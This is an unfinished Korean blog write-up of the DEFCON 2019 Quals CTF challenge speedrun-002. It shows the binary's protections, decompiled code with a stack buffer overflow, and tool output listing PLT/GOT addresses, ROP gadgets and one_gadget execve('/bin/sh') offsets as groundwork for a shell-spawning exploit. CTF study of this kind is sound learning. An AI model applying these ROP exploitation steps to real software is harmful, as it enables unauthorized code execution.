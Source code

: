 ```yaml
---
layout: post
title: ! "[DEFCON 2019 Quals] speedrun-002 (작성중)"
excerpt_separator: <!--more-->
comments : true
tags:
  - pwn
  - Defcon CTF
  - Write-up
  - chaem
---
```


defcon 예선에 있던 speedrun 문제 중에 2번째 문제에 대한 writeup을 쓰려고 한다.  

<!--more-->

얼마만에 보는 pwnable인지... 요즘 계속 web만하다가, defcon ctf 문제 풀이를 위해 간만에 gdb를 쓴듯...ㅠ  
babyheap문제를 풀려고했으나... 공부안한지 너무 오래된것같다... ㅠ ROP문제도 전전긍긍...  

바이너리의 보호기법은 다음과 같다.  
```
ubuntu@ubuntu:~/study/ctf/speed02$ checksec speedrun-002 
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/ubuntu/.pwntools-cache/update to 'never'.
[*] You have the latest version of Pwntools (3.12.2)
[*] '/home/ubuntu/study/ctf/speed02/speedrun-002'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

프로그램을 실행시키면 다음과 같이 값을 입력받고 종료한다. 

``` 
ubuntu@ubuntu:~/study/ctf/speed02$ ./speedrun-002 
We meet again on these pwning streets.
What say you now?
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
What a ho-hum thing to say.
Fare thee well.
```

ida로 디컴파일하여 보면, sub_40074C() 함수를 볼 수 있다.  
이 함수에서 문자열이 `Everything intelligent is so boring.`와 같은지 확인한다.  

```c
int sub_40074C()
{
  int result; // eax
  char buf; // [rsp+0h] [rbp-590h]
  char v2; // [rsp+190h] [rbp-400h]

  puts("What say you now?");
  read(0, &buf, 0x12CuLL);
  if ( !strncmp(&buf, "Everything intelligent is so boring.", 0x24uLL) )
    result = sub_400705(&v2, "Everything intelligent is so boring.");
  else
    result = puts("What a ho-hum thing to say.");
  return result;
}
```

그래서 `Everything intelligent is so boring.` 문자열을 입력하면 그 뒤에 한번 더 값을 입력받는다.  

```
ubuntu@ubuntu:~/study/ctf/speed02$ ./speedrun-002 
We meet again on these pwning streets.
What say you now?
Everything intelligent is so boring.
What an interesting thing to say.
Tell me more.
aaaaa
Fascinating.
Fare thee well.
```
ida로 보았을때, 그러면 `sub_400705`함수를 호출하게 된다.  
이 함수에서 0x7da 만큼의 입력을 받으면서 bof 취약점이 발생한다.  

```c
ssize_t __fastcall sub_400705(void *a1)
{
  puts("What an interesting thing to say.\nTell me more.");
  read(0, a1, 0x7DAuLL);
  return write(1, "Fascinating.\n", 0xDuLL);
}
```

우선, puts 함수가 존재하므로 puts의 주소를 확인한다.  
puts의 plt는 0x4005b0이고, got는 0x601028이다. 
```
ubuntu@ubuntu:~/study/ctf/speed02$ objdump -D speedrun-002 | grep puts
00000000004005b0 <puts@plt>:
  4006fd:	e8 ae fe ff ff       	callq  4005b0 <puts@plt>
  400718:	e8 93 fe ff ff       	callq  4005b0 <puts@plt>
  40075e:	e8 4d fe ff ff       	callq  4005b0 <puts@plt>
  4007b3:	e8 f8 fd ff ff       	callq  4005b0 <puts@plt>
  4007c6:	e8 e5 fd ff ff       	callq  4005b0 <puts@plt>
ubuntu@ubuntu:~/study/ctf/speed02$ objdump -R speedrun-002 | grep puts
0000000000601028 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
root@ubuntu:/home/ubuntu/study/ctf/speed02# objdump -R speedrun-002 | grep read
0000000000601040 R_X86_64_JUMP_SLOT  read@GLIBC_2.2.5

```

```
root@ubuntu:/home/ubuntu/study/ctf/speed02# ROPgadget --binary speedrun-002 | grep ": pop rdx ; ret"
0x00000000004006ec : pop rdx ; ret
root@ubuntu:/home/ubuntu/study/ctf/speed02# ROPgadget --binary speedrun-002 | grep ": pop rdi ; ret"
0x00000000004008a3 : pop rdi ; ret
root@ubuntu:/home/ubuntu/study/ctf/speed02# ROPgadget --binary speedrun-002 | grep ": pop rsi "
0x00000000004008a1 : pop rsi ; pop r15 ; ret
```

root@ubuntu:/home/ubuntu/study/ctf/speed02# one_gadget libc-2.27.so 
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL


